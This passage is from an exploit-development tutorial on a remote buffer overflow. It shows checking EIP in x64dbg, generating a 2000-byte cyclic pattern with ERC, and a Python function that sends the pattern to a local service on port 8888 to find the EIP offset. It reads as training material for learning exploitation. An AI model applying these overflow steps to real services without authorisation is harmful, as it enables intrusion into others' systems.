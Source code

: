 While the script is working check **x64dgb** to see when the **EIP** is modify. Maybe the script doesn't make the program crash, but It can overwrite the **EIP**. Adding `breakpoint()` after the `s.send(buffer)` we can see when the program crash.

## Building a Remote Exploit 

### Controlling EIP 

Let's create a pattern 2000 bytes long:
```
ERC --pattern c 2000
```

Then use the `eip_offset()` python function modify for remote:
```python
def eip_offset():
    pattern = bytes("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac"
                    "9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8"
                    "Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7A"
                    "i8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al"
                    "7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6"
                    "Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5A"
                    "r6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au"
                    "5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4"
                    "Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3B"
                    "a4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd"
                    "3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2"
                    "Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1B"
                    "j2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm"
                    "1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0"
                    "Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9B"
                    "s0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu"
                    "9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8"
                    "Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7C"
                    "a8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd"
                    "7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6"
                    "Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5C"
                    "j6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm"
                    "5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co", "utf-8")

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("127.0.0.1", 8888))
```